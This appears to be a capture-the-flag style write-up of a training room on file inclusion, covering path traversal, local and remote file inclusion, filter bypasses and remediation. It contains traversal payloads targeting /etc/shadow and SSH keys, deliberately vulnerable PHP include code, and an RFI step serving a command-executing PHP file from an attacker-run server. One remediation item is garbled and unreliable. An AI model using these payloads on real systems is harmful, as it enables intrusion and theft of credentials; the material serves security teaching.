





## Task 1 - What is File Inclusion?
This room covers the fundamentals of exploiting file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal. Risks associated with these vulnerabilities as well as required remediation techniques will also be discussed.

A common feature of modern web applications is the ability to request access to files on a given system. The simplest and one of the most common way this is accomplished is via parameters. Parameters are query parameter strings attacked to the URL that can be used to retrieve specific data or perform actions based on user input. The following is a example of a URL where parameters are being used.



The URL above represents an HTTP request to the web server where *file* is the parameter with the value *userCV.pdf* which the user wishes to access.

#### Why do File Inclusion Vulnerabilities Happen?
File inclusion vulnerabilities are commonly found and exploited due to poor design and implementation on part of the developer. The main issue arises as a result of poor or non-existent input validation where the user's inputs are not sanitized or validated before being passed to the web server. This allows a user to pass malicious inputs to the web server thereby giving rise to the vulnerability.

#### What is Risk of File Inclusion?
Primary risk associated with file inclusion vulnerability is the disclosure of sensitive data. Without mitigation, a threat actor can exploit the vulnerability to leak sensitive information related to users or the business. Furthermore, if users are permitted to upload or write files to the web server, file inclusion vulnerabilities may be exploited to gain remote command execution (RCE).

## Task 2 - Deploy the VM
In this task, we are provided with a vulnerable VM we can deploy which will be used for the tasks to follow.

## Task 3 - Path Traversal
Path traversal (also known as Directory Traversal) attacks allow an attacker to read operating system resources such as local files on the server running the application. Path traversal vulnerabilities occur when the user's input is not sanitized properly and is passed to functions such as `file_get_contents` in PHP. This function provides means to read the content of a file. The function itself is not vulnerable but the poor input validation or filtering implemented by the developer may allow an attacker to pass malicious queries to the function resulting in a vulnerability.

Path traversal attacks take advantage of moving the directory one step up using the `../` syntax. If an entry point is found (such as `get.php?file=`), then the attacker can chain the above syntax to retrieve resources outside the application's root folder.

```text
http://www.example.com/get.php?file=../../../../etc/passwd
```
Each `../` moves up one directory until the OS root directory `/` is reached. Then the directory is changed to point to the resource the attacker wishes to access. This process is illustrated in the image below.



Similarly, if the web application runs on a Windows server, the attacker needs to provide path's compliant with the Windows OS. For example, if the attacker wants to access the `boot.ini` file located at `C:\boot.ini`, then the attacker can try the following depending on the target OS version:

```text
http://www.example.com/get.php?file=../../../../boot.ini or

http://www.example.com/get.php?file=../../../../windows/win.ini
```
Below are some common OS files which can be used when testing.

|Location|Description|
|:-:|:--|
|`/etc/issue`|Contains a message or system identification to be printed bore the login prompt.|
|`/etc/profile`|Controls system-wide default variables (such as Export variables), file creation mask (umask), terminal types, mail messages to indicate when new mail has arrived.|
|`/proc/version`|Specifies the version of the Linux kernel.|
|`/etc/passwd`|Contains all registered user who have access to the system.|
|`/etc/shadow`|Contains password hashes and other information regarding the user's on the system.|
|`/root/.bash_history`|Contains the history of commands for the *root* user.|
|`/var/log/dmessage`|Contains global system messages, including the messages that are logged during system startup.|
|`/var/mail/root`|Contains all emails for the *root* user.|
|`/root/.ssh/id_rsa`|Contains the private SSH keys for the *root* user or any known valid user on the server.|
|`/var/log/apache2/access.log`|Contains the accessed request logs for the Apache web server.|
|`C:\boot.ini`|Contains the boot options for computers with BIOS firmware.|

## Task 4 - Local File Inclusion (LFI)
LFI attacks against web applications are often due to a developer's lack of security awareness. Use of PHP functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications. LFI exploits follow the same concepts as path traversal.

Let's look at a simple example. Suppose the web application provides the user with a choice of two languages `EN` and `AR` implemented on the backend with the following code:

```php
<?PHP
    include($_GET["lang"]);
?>
```
The code above uses a `GET` request via the URL parameter `lang` to include the file of the page. The call can be made by making the following HTTP request:

```text
http://webapp.thm/index.php?lang=EN.php

or

http://webapp.thm/index.php?lang=AR.php
```
Theoretically, we can access an display any readable file on the server from the code above if there isn't any input validation. Suppose we want to read `/etc/passwd` file, we can try the following:

```text
http://webapp.thm/index.php?lang=/etc/passwd
```

This works because in the PHP code above, there isn't a directory specified in the `include` function and no input validation is implemented. So what happens if the developer decides to specify a directory from where the files are accessed. The PHP code would look something like the following:

```php
<?PHP
    include("languages/".$_GET['lang']);
?>
```
Here the developer used the `include` function to call PHP pages in the *languages* directory only via the `lang` parameter. If no input validation is implemented, we can manipulate the URL by replacing the `lang` input with other OS-sensitive files. The payload here looks similar to the path traversal attack. The exploit would be as follows:

```text
http://webapp.thm/index.php?lang=../../../../../etc/passwd
```
## Task 5 - Local File Inclusion - LFI #2
In this task, we will go deeper into LFI attacks. We will be performing black box testing and will be relying on errors to better understand how the data is passed and processed into the web application.

### NullByte Bypass
Suppose we have the following entry point:

```text
http://webapp.thm/index.php?lang=EN
```
Now suppose we enter an invalid input such as *THM* and the application returns the following error:

```text
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/html/THM-4/index.php on line 12
```
The error message discloses significant information. Most apparent is that the `include` function looks like `include(languages/THM.php);`. If we look at the directory closely, we can tell that the function includes files in the languages directory and adds `.php` at the end of the entry. This means that a valid entry will have a form similar to `index.php?lang=EN`, where `EN` is located inside the *languages* directory and the file is named *EN.php*.

The error message also discloses the full directory path within which the application resides: `/var/www/html/THM-4`.

We can exploit this part of the vulnerability by chaining a series of `../` to escape the directory and point to the resource that we are interesting in. However, note that the error message above also indicates that the backend code appends the `.php` extension after our query (ie: `THM.php`). So if we were to request something like `http://webapp.thm/index.php?lang=../../../../../etc/passwd`, the web server would return the following error:

```text
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
To bypass this scenario, we will need to use what is known as the `NULL BYTE` (ie: `%00`).

Using *NullByte* is an injection technique where URL-encoded representations such as `%00` or `0x00` are used with user-supplied data to terminate strings. Essentially it is a way to tricking the web application into disregarding whatever comes after the *NullByte*.

In our example, by adding the *NullByte* to the end of our payload, we tell the `include` function to ignore everything after the NullByte. The result would look something like the following:

```text
include("languages/../../../../../etc/passwd%00").".php");
```
Which is equivalent to:

```text
include("languages/../../../../../etc/passwd");
```
Typically, requests including the *NullByte* technique are performed from a browser's URL bar rather than from within the web application's form.

NOTE: the `%00` technique is fixed and does not work in PHP 5.3.4 and above.

### Keyword Filter Bypass
Suppose the developer decided to implement filter keywords to avoid disclosing sensitive information. For example, assume the developer implemented a keyword filter which filters out the `/etc/passwd` file. There are two methods to bypass the filter. One method is to use the *NullByte* `%00` or the current directory trick at the end of the filtered keyword `/.`. The exploit would look like following:

```text
http://webapp.thm/index.php?lang=/etc/passwd%00

or

http://webapp.thm/index.php?lang=/etc/passwd/.
```
### Input Validation Bypass
Suppose the developer implements input validation filters. Suppose we try the query `http://webapp.thm/index.php?lang=../../../../etc/passwd` and are presented with the following error:

```text
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
Looking at the error message in the `include(languages/etc/passwd)` section, we see that the web application replaces our `../` with an empty string. In other words, the developer appears to have implemented a filter which looks for the `../` string and replaces it with an empty string. One of the common techniques to bypass a filter such as this is to chain `....//` instead. So our query would look something like `....//....//....//....//....//etc/passwd`.

The reason this works is because PHP filter only matches and replaces the first subset string `../` it finds and doesn't do another pass resulting in:


### Defined Directory Bypass
Let's discuss the case where the developer forces the `include` function to read from a defined directory. For example, if the web application asks user to supply an input that has to include a directory such as `http://webapp.thm/index.php?lang=languages/EN.php`, we can still use the directory traversal technique to trick the web application to access the resource we are pointing to. Our payload would look something like:

```text
http://webapp.thm/index.php?lang=languages/../../../../../etc/passwd
```
## Task 6 - Remote File Inclusion - RFI
Remote File Inclusion (RFI) is a technique that includes remote files into a vulnerable application. Like LFI, RFI occurs when improper input sanitation is implemented thus allowing an attacker to inject an external URL into the `include` function of a PHP backend. One requirement for RFI is that the `allow_url_fopen` option in PHP needs to be enabled. 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the web server. Other consequences of a successful RFI attack include:

- Sensitive information disclosure
- Cross-site scripting (XSS)
- Denial of service (DoS)

For a successful RFI attack, an external server must communicate with the application server. The malicious file is injected into the `include` function via HTTP requests and the contents of the malicious file executes on the vulnerable application server. The general process of RFI attack is illustrated below.


## Task 7 - Remediation
The following are some methods which can be used to mitigate file inclusion vulnerabilities:

1. Key system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web application doesn't need them (ie: `allow_url_fopen` and `allow_url_include`).
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are needed.
6. Never trust user input and make sure to implement proper input validation against file inclusion.
7. Never implement whitelisting for file names and locations as well as blacklisting.

## Task 8 - Challenge
Let's apply what we have learned so far.

### Challenge #1
In this challenge, we are told that the input form is broken and that we need to send POST request with the file parameter.

Let's do this through BurpSuite. With the proxies configured, let's capture the request.


Let's change the HTTP request method from GET to POST and forward the packet.


After forwarding the request, the flag is displayed on the web application.


### Challenge 2
Opening the page, we are presented with an error prompting us to refresh the page. Once refreshed, the message changes to:

```text
Welcome Guest!
Only admins can access this page!
```
Let's intercept the request in BurpSuite and see what we are dealing with.


Looks like the the cookie field is set to `Guest`. Let's modify that to `Admin` and forward the request.


Note that the web application appends `.php` extension after our parameter value. We can bypass this by appending the *NullByte* to our request.


Forwarding the request retrieves the flag.


### Challenge 3
In challenge 3, we are presented with a web form with a dialog box where we can enter the file we wish to access. Let's try and access the `/etc/flag3` file.


It looks like the web application is implementing some sort of keyword filter which replaces our `/` with an empty string. Also note that the web application is apply a filter on numbers as the number `3` from our request is also replaced by an empty string. Furthermore, the application is appending the `.php` extension to our request.

Let's intercept the request in BurpSuite.


Let's change the method from GET to POST and modify the file parameter to `../../../../etc/flag3%00`. Forward the request to retrieve the flag.





### RFI Challenge
The RFI challenge requires us to execute the `hostname` command on the application server.

Let's start by creating a malicious PHP file which we will remotely serve.

```php
<?php system("hostname"); ?>
```
Save the above code as `shell.php` and serve it through a simple Python server on port 80.

In the application, point the web application to the location of our malicious file.


Submit the request to have the application access our remote file and execute our payload.



